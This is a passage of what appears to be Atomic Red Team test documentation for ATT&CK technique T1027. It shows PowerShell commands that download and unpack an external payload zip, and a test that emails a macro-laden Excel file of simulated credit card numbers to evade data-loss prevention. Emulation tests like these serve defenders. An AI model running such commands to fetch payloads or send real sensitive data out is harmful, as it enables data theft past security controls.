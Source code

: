 

#### Dependencies:  Run with `powershell`!
##### Description: T1027.exe must exist on disk at PathToAtomicsFolder\..\ExternalPayloads\temp_T1027.zip\T1027.exe
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\temp_T1027.zip\T1027.exe") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "#{url_path}" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\T1027.zip"
Expand-Archive -path "PathToAtomicsFolder\..\ExternalPayloads\T1027.zip" -DestinationPath "PathToAtomicsFolder\..\ExternalPayloads\temp_T1027.zip\" -Force
```




<br/>
<br/>

## Atomic Test #6 - DLP Evasion via Sensitive Data in VBA Macro over email
Upon successful execution, an excel containing VBA Macro containing sensitive data will be sent outside the network using email.
Sensitive data includes about around 20 odd simulated credit card numbers that passes the LUHN check.

**Supported Platforms:** Windows


**auto_generated_guid:** 129edb75-d7b8-42cd-a8ba-1f3db64ec4ad





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_file | Path of the XLSM file | path | PathToAtomicsFolder&#92;T1027&#92;src&#92;T1027-cc-macro.xlsm|
| sender | sender email | string | test@corp.com|
| receiver | receiver email | string | test@corp.com|
| smtp_server | SMTP Server IP Address | string | 127.0.0.1|


#### Attack Commands: Run with `powershell`! 


```powershell
Send-MailMessage -From #{sender} -To #{receiver} -Subject 'T1027_Atomic_Test' -Attachments "#{input_file}" -SmtpServer #{smtp_server}
```
